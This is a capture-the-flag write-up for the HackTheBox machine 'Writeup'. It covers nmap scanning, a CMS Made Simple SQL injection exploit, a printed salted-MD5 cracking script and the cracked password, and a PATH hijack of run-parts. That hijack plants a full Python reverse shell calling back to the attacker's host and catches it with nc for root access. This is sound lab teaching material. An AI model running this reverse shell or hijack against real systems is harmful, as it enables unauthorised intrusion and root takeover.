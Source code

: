 This is my first writeup for any of the boxes I've done on HackTheBox and, fittingly, it's for writeup.

![writeup info](Writeup.JPG)

The box has a vulnerable version of CMS Made Simple installed on it. Once on the box, it has a recurring command to run run-parts, which has a relative path specified that allows the user to create their own executable that will be run when the command triggers.
Both of these together allow the user to gain root access and retrieve the flag.

Let's get to it with some enumeration using nmap:
```
# Nmap 7.70 scan initiated Thu Jun 20 17:46:20 2019 as: nmap -vvv -sV -sC -oA nmap 10.10.10.138
Nmap scan report for 10.10.10.138
Host is up, received echo-reply ttl 63 (0.10s latency).
Scanned at 2019-06-20 17:46:20 EDT for 24s
Not shown: 998 filtered ports
Reason: 998 no-responses
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKBbBK0GkiCbxmAbaYsF4DjDQ3JqErzEazl3v8OndVhynlxNA5sMnQmyH+7ZPdDx9IxvWFWkdvPDJC0rUj1CzOTOEjN61Qd7uQbo5x4rJd3PAgqU21H9NyuXt+T1S/Ud77xKei7fXt5kk1aL0/mqj8wTk6HDp0ZWrGBPCxcOxfE7NBcY3W++IIArn6irQUom0/AAtR3BseOf/VTdDWOXk/Ut3rrda4VMBpRcmTthjsTXAvKvPJcaWJATtRE2NmFjBWixzhQU+s30jPABHcVtxl/Fegr3mvS7O3MpPzoMBZP6Gw8d/bVabaCQ1JcEDwSBc9DaLm4cIhuW37dQDgqT1V
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPzrVwOU0bohC3eXLnH0Sn4f7UAwDy7jx4pS39wtkKMF5j9yKKfjiO+5YTU//inmSjlTgXBYNvaC3xfOM/Mb9RM=
|   256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEuLLsM8u34m/7Hzh+yjYk4pu3WHsLOrPU2VeLn22UkO
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 20 17:46:44 2019 -- 1 IP address (1 host up) scanned in 24.36 seconds
```

With a standard scan there only appears to be ssh and a web server accessible for now.

Upon opening 10.10.10.138 in a browser, we are greeted with this message:

```
########################################################################
#                                                                      #
#           *** NEWS *** NEWS *** NEWS *** NEWS *** NEWS ***           #
#                                                                      #
#   Not yet live and already under attack. I found an   ,~~--~~-.      #
#   Eeyore DoS protection script that is in place and   +      | |\    #
#   watches for Apache 40x errors and bans bad IPs.     || |~ |`,/-\   #
#   Hope you do not get hit by false-positive drops!    *\_) \_) `-'   #
#                                                                      #
#   If you know where to download the proper Donkey DoS protection     #
#   please let me know via mail to jkr@writeup.htb - thanks!           #
#                                                                      #
########################################################################
```

So this site will probably ban us for a bit if we scan too fast. We might as well check some standard enumeration targets first; it is supposed to be an "easy" box after all.
Let's check robots.txt. There is one disallowed url:
```
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: * 
Disallow: /writeup/
```

Upon checking the writeup directory we see a homepage that lists multiple writeups that are all accessed with index.php?page=x.
This indicates there could be some php file inclusion vuln or injection available. Using Wappalyzer to check used technologies, it lists that the website appears to be using CMS Made Simple.
Let's see if there are some exploits available for it.

```
root@kali:~/Documents/htb/boxes/writeup# searchsploit cms made simple 
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path                                  
                                       | (/usr/share/exploitdb/)                
--------------------------------------- ----------------------------------------

...
CMS Made Simple < 2.2.10 - SQL Injecti | exploits/php/webapps/46635.py
...
```
Here's one that mentions SQL Injection. This seems like a good choice for when we have an index.php loading page.

Let's copy the python file to the current directory and check it out. It tries to dump salts, usernames, emails, and passwords, then attempt to crack them. 
Run the command:
```
python 46635.py -u http://10.10.10.138/writeup/
```
which gives the following output after changing TIME to 1 inside the script.

<pre><font color="#8AE234"><b>[+] Salt for password found: 5a599ef579066807</b></font>
<font color="#8AE234"><b>[+] Username found: jkr</b></font>
<font color="#8AE234"><b>[+] Email found: jkr@writeup.htb</b></font>
<font color="#8AE234"><b>[+] Password found: 62def4866937f08cc13bab43bb14e6f7</b></font>
</pre>

Personally, I decided to yank out the password cracking portion so I could rerun it without waiting on the exploit if it happened to fail.
Here's the code:
```python
import hashlib

def crack_password():
    password = "62def4866937f08cc13bab43bb14e6f7"
    wordlist = "/usr/share/wordlists/rockyou.txt"
    salt = "5a599ef579066807"
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            print  "\n[+] Password cracked: " + line
            break
    dict.close()

print "Cracking..."
crack_password()
```

Run it:
<pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>~/Documents/htb/boxes/writeup</b></font># python crack_pass.py                  
Cracking...

[+] Password cracked: raykayjay9
</pre>
Try to log in through ssh with these credentials and we have user.txt
```
jkr@writeup:~$ wc user.txt 
 1  1 33 user.txt
```
Running a 64bit version of pspy we see one of the commands being run as root (seemingly when people log in with ssh) is the following:
```
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new  
```
Check the directory permissions and which groups jkr belongs to:
<pre>
jkr@writeup:~$ ls -al /usr/local
total 64
drwxrwsr-x 10 root staff  4096 Apr 19 04:11 <font color="#729FCF"><b>.</b></font>
drwxr-xr-x 10 root root   4096 Apr 19 04:11 <font color="#729FCF"><b>..</b></font>
drwx-wsr-x  2 root staff 20480 Oct 11 22:18 <font color="#729FCF"><b>bin</b></font>
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 <font color="#729FCF"><b>etc</b></font>
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 <font color="#729FCF"><b>games</b></font>
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 <font color="#729FCF"><b>include</b></font>
drwxrwsr-x  4 root staff  4096 Apr 24 13:13 <font color="#729FCF"><b>lib</b></font>
lrwxrwxrwx  1 root staff     9 Apr 19 04:11 <font color="#34E2E2"><b>man</b></font> -&gt; <font color="#729FCF"><b>share/man</b></font>
drwx-wsr-x  2 root staff 12288 Oct 11 22:21 <font color="#729FCF"><b>sbin</b></font>
drwxrwsr-x  7 root staff  4096 Apr 19 04:30 <font color="#729FCF"><b>share</b></font>
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 <font color="#729FCF"><b>src</b></font>
jkr@writeup:~$ groups
jkr cdrom floppy audio dip video plugdev staff netdev
</pre>
So our user has no read permissions to /usr/local/bin, but we have write permissions. Due to this we can just drop a script from our host machine in and have that be run first because of its order in the PATH (since other users were on the box /usr/local/bin was changed less often than sbin so I decided to go through there).

We need a script to run instead of run-parts. Thankfully I already have a python reverse shell on my attacking machine and I rename that to run-parts.
To transfer it, I start up a web server. Grab it and save it to one of the first folders listed in the PATH. The code is listed at the bottom of the next block.
<pre>jkr@writeup:/usr/local/bin$ wget 10.10.15.8:8000/run-parts                     
--2019-10-11 22:17:17--  http://10.10.15.8:8000/run-parts                      
Connecting to 10.10.15.8:8000... connected.                                    
HTTP request sent, awaiting response... 200 OK                                 
Length: 234 [application/octet-stream]
Saving to: ‘run-parts’

run-parts           100%[===================&gt;]     234  --.-KB/s    in 0s      

2019-10-11 22:17:17 (20.6 MB/s) - ‘run-parts’ saved [234/234]                  

jkr@writeup:/usr/local/bin$ cat run-parts                                      
#!/usr/bin/env python3
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)                             
s.connect((&quot;10.10.15.8&quot;,1000))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn(&quot;/bin/bash&quot;)
jkr@writeup:/usr/local/bin$ chmod +x run-parts                                 
jkr@writeup:/usr/local/bin$ ls -al run-parts                                   
-rwxr-xr-x 1 jkr staff 234 Oct 11 01:05 <font color="#8AE234"><b>run-parts</b></font></pre>

Open up a listening port and connect to writeup with ssh again in another window or tab. A connection appears within seconds.
<pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>~/Documents/htb/boxes/writeup</b></font># nc -lnvp 1000                         
listening on [any] 1000 ...
connect to [10.10.15.8] from (UNKNOWN) [10.10.10.138] 55596                    
root@writeup:/home# cd /root
cd /root
root@writeup:/root# ls
ls
bin  root.txt
root@writeup:/root# wc root.txt
wc root.txt
 1  1 33 root.txt
root@writeup:/root# 
</pre>
Success! We have root.
